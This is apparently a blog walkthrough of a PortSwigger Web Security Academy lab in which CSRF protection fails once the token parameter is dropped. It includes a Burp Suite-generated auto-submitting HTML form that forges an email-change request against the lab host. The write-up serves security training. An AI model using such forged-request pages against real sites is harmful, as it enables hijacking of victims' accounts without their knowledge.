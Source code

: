 ```yaml
---
layout: post
title:  "CSRF where token validation depends on token being present"
date:   2024-10-01 09:39:54 +0530
---
```




## Solution

Like the First CSRF lab which we solved is **"CSRF where token validation depends on request method"** here also looks the same where we have a **Email update** functionality and if we pass the values correctly, we will be responded with status code of `302`

![]({{ site.baseurl }}/assets/images/csrf-6.png) 

When I change something to the CSRF value like changing the last letter of value or something.. we will get an error like `Invalid CSRF token` 

![]({{ site.baseurl }}/assets/images/csrf-7.png) 

But what happens when we remove the entire token, think of it like `&csrf=guhoud09u` if I change something to their value it is validating based on the token and if the token isn't there it is not going to be validated.. So, I removed `&csrf=` entirely including the parameter and it worked.. request passes through and email got updated.. So it is vulnerable to a CSRF attack 

![]({{ site.baseurl }}/assets/images/csrf-8.png) 

Built a CSRF POC of the request using burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac400ed0306a804803f999e002600ec.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Post the exploit POC into the Exploit server body and then `store -> Deliver the exploit to victim` and which will solve our lab 

![]({{ site.baseurl }}/assets/images/csrf-9.png) 